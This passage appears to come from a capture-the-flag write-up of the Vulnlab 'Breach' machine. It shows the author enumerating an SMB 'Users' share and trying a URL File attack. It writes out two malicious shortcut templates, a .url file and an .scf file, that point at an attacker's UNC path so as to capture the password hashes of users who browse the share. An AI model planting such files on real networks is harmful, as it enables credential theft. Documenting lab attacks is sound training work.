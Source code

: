 *Enumerating `Users` smb share :*
<img src="attachments/8ceb3a4cfeaf059345eaa4b0c80d476c.png" />

After researching, we were able to find an attack called the [URL File attack](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack) that can be used to retrieve hashes of users who interact with our malicious file.

*Template 1 :*
```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Breach]
└─$ cat @shortcut.url     
[InternetShortcut]
URL=\\10.8.4.157\share\test.ico
```

This template didn't work for us.

<img src="attachments/ea01529c702e48202761cb29cf88e89e.png" />

*Template 2 :*
```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Breach]
└─$ cat @notevil.scf            
[Shell]
Command=2
IconFile=\\10.8.4.157\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```
